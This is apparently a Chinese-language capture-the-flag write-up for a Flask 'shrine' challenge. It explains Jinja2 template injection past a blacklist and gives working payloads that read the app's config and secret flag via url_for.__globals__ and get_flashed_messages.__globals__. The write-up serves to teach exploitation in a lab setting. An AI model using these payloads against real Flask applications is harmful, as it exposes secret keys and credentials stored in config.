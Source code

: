 考察知识点：

1.模板注入（ssit)

2.python沙箱逃逸

url_for和get_flashed_messages包含current_app全局变量



1.代码审计

```javascript
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)

```



2.发现使用jinjia模板引擎

```javascript
    return flask.render_template_string(safe_jinja(shrine))
```

考虑模板注入。



3.shrine路由下尝试模板注入

![](images/5FB53FC720F344DCA88FFAD39542EEB4clipboard.png)

确定存在模板注入



4.源代码显示，config中存在flag

```javascript
app.config['FLAG'] = os.environ.pop('FLAG')
```



但是直接输入config,内容会被替换为none

```javascript
 blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s
```



5.此时需要逃逸



如果没有黑名单的时候，我们可以使用config，传入 config，或者使用self传入 {{self.__dict__}}

 

当config,self,()都被过滤的时候，为了获取讯息，我们需要读取一些例如current_app这样的全局变量。

看了其他师傅的WP，python的沙箱逃逸这里的方法是利用python对象之间的引用关系来调用被禁用的函数对象。

这里有两个函数包含了current_app全局变量，url_for和get_flashed_messages

 

官方文档在https://flask.palletsprojects.com/en/1.0.x/api/#flask.get_flashed_messages

https://flask.palletsprojects.com/en/1.0.x/api/#flask.url_forbaobaoer.cn/archives/656/python-b2e7b180e9b880e793

 

我们注入{url_for.__globals__}得到

![](images/17A2A8EA40014B25A2793D34B008B69384-421565028.png)

 

 

 current_app是当前使用的app，继续注入当前app的config

{url_for.__globals__['current_app'].config}

![](images/CEB4E60659EC4EEF95845826BA2ABB482-1559116334.png)

 

 

 可以看到get flag

get_flashed_messages注入的方法同理



# 6.get_flashed_messages注入

## 6.1 get_flashed_messages获取全局变量

```javascript
/shrine/{{get_flashed_messages.__globals__}}
```



## 6.2 获取current_app的内容

```javascript
/shrine/{{get_flashed_messages.__globals__['current_app'].config}}
```



![](images/4813E2001F9A4F2A829A60A2C1E31C4Eclipboard.png)

